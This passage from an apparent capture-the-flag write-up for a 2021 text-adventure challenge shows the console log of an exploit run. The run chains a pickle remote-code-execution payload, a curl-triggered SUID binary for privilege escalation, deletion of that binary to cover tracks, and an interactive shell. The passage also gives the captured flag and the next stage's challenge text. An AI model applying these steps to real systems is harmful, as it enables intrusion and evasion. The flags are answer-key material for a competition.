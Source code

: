 Running the exploit:

```shell
root@42c70e7d708e:/opt/wonderland# ./3_constantize_send.py
[+] Opening connection to 172.17.0.1 on port 31337: Done
[▘] Initialising connection. This will take a moment...
[*] Moving to the a-shallow-deadend to get the pocket-watch...
[*] Disabling text scroll.
[*] Moving to a-curious-hall to drink the pink-bottle...
[*] Moving to a-fancy-pavillion to eat the fluffy-cake...
[*] Moving to a-mystical-cove to get the looking-glass...
[*] Teleporting to under-a-giant-mushroom to get the golden-hookah...
[*] Teleporting to /opt/wonderland/logs
[*] Generating pickle RCE payload...
[*] Writing payload to dd2ded97-475e-4c04-b77b-9875923c8283.item
[*] Triggering RCE...
[*] Constructing pool-of-tears exploit URL.
[*] Sending curl request to trigger the creation of the SUID binary.
[*] Triggering the SUID binary to escalate to the mouse user.
[*] Removing the SUID binary to clean up the tracks.
[*] Getting the flag by executing /home/mouse/flag3.bin
[+] Flag 3:
[+] TISC{mu5t_53ll_4t_th3_t4l13sT_5UM}
[+] Enjoy your shell!
[*] Switching to interactive mode

$ id
uid=1000(rabbit) gid=1000(rabbit) euid=1001(mouse) egid=1001(mouse) groups=1001(mouse)
$
```

The full exploit can be found in [`3_constantize_send.py`](https://github.com/nnamon/tisc-2021-1865-text-adventure/blob/main/solutions/3_constantize_send.py).

Flag: `TISC{mu5t_53ll_4t_th3_t4l13sT_5UM}`



### Stage 4: A Mad Tea Party

The challenge text for this stage is:

```
Great! We have all we need to attend the Tea Party!

To get an idea of what to expect, we've consulted with our informant (initials C.C) who advised:

"Attend the Mad Tea Party.
Come back with (what's in) the Hatter's head.
Sometimes the end of a tale might not be the end of the story.
Things that don't make logical sense can safely be ignored.
Do not eat that tiny Hello Kitty."

This is nonsense to us, so you're on your own from here on out.

The game is hosted at `172.17.0.1:31337`.

No kernel exploits are required for this challenge.

```
